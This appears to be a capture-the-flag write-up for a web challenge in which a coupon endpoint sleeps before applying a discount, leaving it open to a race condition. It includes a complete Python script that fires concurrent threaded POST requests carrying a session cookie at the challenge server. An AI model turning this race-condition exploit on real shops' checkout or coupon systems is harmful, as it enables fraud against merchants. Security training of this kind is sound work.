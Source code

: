 ![image](https://github.com/user-attachments/assets/91950c02-3ff0-44b6-8deb-34766fd7871b)

# Exploration
Since the challenge provided the source code, let's take a look in that.
![image](https://github.com/user-attachments/assets/d05da055-7412-4b3e-a01f-5c2989318d7a)
<br>We'll focus on the ```apply coupon``` endpoint.

Let's try to understand what the code does.
1. Get Necessary data like user-id and coupon code.
2. If coupon code is 'race', !!!!sleep for 0.5 seconds!!!! and reduce product price. last return new price.
3. If coupon code is incorrect, return failed.

See how it sleeps for 0.5 seconds. We can actually abuse to vulnerability called Race Condition.
To exploit it, use multithreading.

# Solution
The basic of this exploitation is to send many requests at the same time while the sleeping period of the system.
![image](https://github.com/user-attachments/assets/7a71c54b-5073-4a20-8c4e-74d4d8497c68)
![image](https://github.com/user-attachments/assets/72305853-604c-42c2-91ce-663bec6f1b11)

For some reason burp suite is not fast enough to execute it.
<br>Therefore, i've written a python code to automate it.
<br>**Note: Make sure to change the cookie according to your website**

After this, just buy the product and will get the flag.

```import requests
from concurrent.futures import ThreadPoolExecutor

# Function to send a POST request
def send_request():
    cookies = {
        'session': 'eyJ1c2VyX2lkIjoiMDllNTIxMWRhNzQzZDcyYSJ9.Zr2LsQ.NXJgr647DhTEn5kLEk3to7FjMvc',}
    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,th;q=0.7',
        'Connection': 'keep-alive',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        # 'Cookie': 'session=eyJ1c2VyX2lkIjoiNjU4ODVjYTFhZTY3NDFlNiJ9.ZrxAOA.xuxRQ09Zh3HAMrjZOHin22dRIrY',
        'DNT': '1',
        'Origin': 'http://185.218.124.252:1337',
        'Referer': 'http://185.218.124.252:1337/',
        'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Mobile Safari/537.36',
        'X-Requested-With': 'XMLHttpRequest',
        }

    data = {
        'coupon_code': 'race',
    }

    response = requests.post('http://185.218.124.252:1337/apply_coupon', cookies=cookies, headers=headers, data=data, verify=False)
    return response.status_code, response.text

# Use ThreadPoolExecutor to send 10 requests concurrently
with ThreadPoolExecutor(max_workers=10) as executor:
    futures = [executor.submit(send_request) for _ in range(10)]

    for future in futures:
        status_code, response_text = future.result()
        print(f"Status Code: {status_code}, Response: {response_text}")```
```

![image](https://github.com/user-attachments/assets/b8f63be5-92ba-45e5-98d2-2c71cd16e900)

